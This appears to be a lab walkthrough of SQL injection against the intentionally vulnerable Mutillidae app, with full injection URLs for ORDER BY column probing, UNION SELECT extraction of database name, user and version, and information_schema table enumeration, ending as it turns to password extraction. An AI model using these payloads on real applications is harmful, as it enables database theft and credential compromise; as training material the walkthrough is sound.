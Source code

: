 


- Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

- The browser url of this info page need to be modified with the url as below:
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
```


- After adding the order by 6 into the existing url , the following error statement will be obtained:


- When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

- As it is having 5 columns the query worked fine and it provides the correct result


- Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union


- As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.


- Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
```
- The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

- Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
```

- The url once executed will retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
- When the attacker knows table names, he needs to discover what the column names are to extract data.

- In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”
